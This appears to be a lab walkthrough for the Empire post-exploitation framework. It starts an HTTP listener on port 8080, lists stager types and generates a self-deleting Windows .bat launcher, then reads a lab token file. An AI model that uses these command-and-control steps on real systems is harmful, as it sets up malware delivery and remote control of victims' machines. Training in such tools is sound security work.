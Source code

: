 # PSE

First moved to correct directory:

```
 cd /home/linux/Empire/
```

Run the empire command:

```
./empire
```

Program empire will start, as using listeners first, enter listener area:

```
 listeners
```

Output shoud look like:

```bash
===============================================================
 [Empire]  Post-Exploitation Framework
================================================================
 [Version] 2.5 | [Web] https://github.com/empireProject/Empire
================================================================

   _______ .___  ___. .______    __  .______       _______
  |   ____||   \/   | |   _  \  |  | |   _  \     |   ____|
  |  |__   |  \  /  | |  |_)  | |  | |  |_)  |    |  |__
  |   __|  |  |\/|  | |   ___/  |  | |      /     |   __|
  |  |____ |  |  |  | |  |      |  | |  |\  \----.|  |____
  |_______||__|  |__| | _|      |__| | _| `._____||_______|


       292 modules currently loaded

       0 listeners currently active

       0 agents currently active


(Empire) > uselistener http
(Empire) > uselisteners http
(Empire) > listeners
[!] No listeners currently active 
```

To check listener types, type uselisteners, press tab after a few times, in linux this always lists asscoated files, folser, functions ect, this case http
```
uselisteners
```

Output

```bash
(Empire: listeners) > uselistener 
dbx           http          http_com      http_foreign  http_hop      http_mapi     meterpreter   onedrive      redirector 
```

Use http:
```
 uselistener http
```

Each setting can be checked by adding the extension and using tab a few times example for http output when typing set then tab:

```bash
(Empire: listeners/http) > set 
BindIP            DefaultDelay      DefaultProfile    KillDate          Port              SlackChannel      StagingKey
CertPath          DefaultJitter     Headers           Launcher          Proxy             SlackToken        UserAgent
Cookie            DefaultLostLimit  Host              Name              ProxyCreds        StagerURI         WorkingHours
```

Set port:

```
set port 8080
```

To start type execute:

```
execute
```

Output should be:

```bash
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > execute
[*] Starting listener 'http'
 * Serving Flask app "http" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
[+] Listener successfully started!
```

Check if live:

```
listeners
```

Type back to get back to main menu, then type `usestager` space bar and tab twice for options, command:
```
usestager
```

Output:

```bash
(Empire) > usestager 
multi/bash                osx/ducky                 osx/safari_launcher       windows/ducky             windows/macro
multi/launcher            osx/dylib                 osx/shellcode             windows/hta               windows/macroless_msword
multi/macro               osx/jar                   osx/teensy                windows/launcher_bat      windows/shellcode
multi/pyinstaller         osx/launcher              windows/backdoorLnkMacro  windows/launcher_lnk      windows/teensy
multi/war                 osx/macho                 windows/bunny             windows/launcher_sct      windows/wmic
osx/applescript           osx/macro                 windows/csharp_exe        windows/launcher_vbs      
osx/application           osx/pkg                   windows/dll               windows/launcher_xml      
(Empire) > usestager 
```

Select one required, in this case windows and press enter:

```
usestager windows/launcher_bat
```

Use `info` to display what information needs to be set, in this case the http listerner set earlier:

```
info
```

Command:

```
set Listener http
```

Check if http listener is set:

```
info
```

```bash
(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher

Description:
  Generates a self-deleting .bat launcher for
  Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True        http              Listener to generate stager for.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only.
  ObfuscateCommand False       Token\All\1,Launcher\STDIN++\12467The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
```

Output show listener set, now generate the .bat

```
generate
```

Once completed output:

```bash
[*] Stager output written out to: /tmp/launcher.bat
```

Once this is done this lab is nearly complete, output is stated to:
`/home/linux/token.txt`, lets exit the program, type exit and click enter the y to confirm.

now read the token at the directory:
```
cat /home/linux/token.txt
```

Answer the other questions and your done.
